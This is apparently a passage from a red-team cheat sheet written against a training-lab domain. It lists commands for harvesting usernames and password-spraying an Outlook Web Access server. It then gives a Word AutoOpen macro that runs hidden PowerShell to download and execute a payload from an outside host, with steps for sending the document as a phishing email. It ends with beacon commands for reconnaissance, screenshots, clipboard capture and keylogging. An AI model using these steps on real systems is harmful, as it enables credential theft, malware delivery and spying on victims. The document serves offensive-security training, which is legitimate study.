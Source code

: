 ```powershell
# Extract Employee Names (FirstName LastName) and Prepare Username List
$ ~/namemash.py names.txt > possible.txt

# Validate the username to find active/real usernames
ps> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt

# Conduct Password Spraying attack with known Password on identified users
ps> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022

# Use Identified credentials to download Global Address List
ps> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```
Create a malicious Office file having embedded macro
```powershell
# Step 1: Open a blank word document "Document1". Navigate to  View > Macros > Create. Changes macros in to Document1. Name the default macro function as AutoOpen. Paste the below content and run for testing

Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "notepad"

End Sub

# Step 2: Generate a payload for web delivery (Attacks > Scripted Web Delivery (S) and generate a 64-bit PowerShell payload with your HTTP/DNS listener). Balance the number of quotes


Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
	Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://nickelviper.com/a'))"""

End Sub

# Step 3: Save the document as .doc file and send it as phising email
```
## Host Reconnaissance
```powershell
# Identify running process like AV, EDR or any monitoring and logging solution
beacon> ps

# Use Seatbealt to enumerate about system
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe -group=system

# Screenshot, Clipboard, Keylogger and User Sessions of currently logged in user
beacon> screenshot
beacon> clipboard
beacon> net logons

beacon> keylogger
beacon> job
beacon> jobkill 3
```
## Host Persistence (Normal User)